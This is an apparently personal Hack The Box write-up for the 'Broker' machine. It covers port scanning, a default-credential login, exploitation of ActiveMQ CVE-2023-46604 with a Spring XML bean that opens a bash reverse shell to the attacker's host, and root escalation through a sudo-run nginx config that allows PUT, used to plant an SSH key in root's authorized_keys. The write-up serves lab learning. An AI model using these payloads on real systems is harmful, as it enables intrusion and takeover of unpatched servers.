

# [Broker](https://app.hackthebox.com/machines/Broker)

```bash
nmap -p- --min-rate 10000 10.10.11.243 -Pn   
```


After detection of open ports(22,80,1883,5672,8161), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,1883,5672,8161 10.10.11.243
```


I start from port (80), I confront with HTTP Basic Authentication and type just admin:admin , logged on

admin:admin

It is ActiveMQ.


I searched publicly-known exploits for ActiveMQ and find [exploit](https://github.com/evkl1d/CVE-2023-46604.git) whose CVE-id is [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)


1.First, I need to create malicious xml file which have reverse shell payload.
```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/10.10.16.6/1337 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```

2.Then, open http server which serve this malicious xml file.

```bash
python3 -m http.server --bind 10.10.16.6 8080
```


3.Run a script as below.
```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.16.6:8080/dr4ks.xml
```


I got reverse shell from port (1337).


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


user.txt




To check privileges of this user, I run `sudo -l` command.


It means that I can create easily malicicous webserver with one configuration file.


Let's create configuration for webserver that I can put data here also for `/root` endpoint.

1.First, create malicious webserver **configuration**.
```conf
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 3169;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

2.Then, apply this conf file to create webserver via `nginx`.
```bash
sudo /usr/sbin/nginx -c /tmp/dr4ks.conf 
```


Hola, malicious webserver is created.

After this I add attacker's public key (**id_rsa.pub**) into `root` user's `authorized_keys` file like below.

```bash
curl -X PUT localhost:3169/root/.ssh/authorized_keys -d '{attacker_public_key}'
```


Then, I can login into machine via `private_key` (id_rsa) file of attacker.
```bash
ssh -i /root/.ssh/id_rsa root@10.10.11.243
```

root.txt


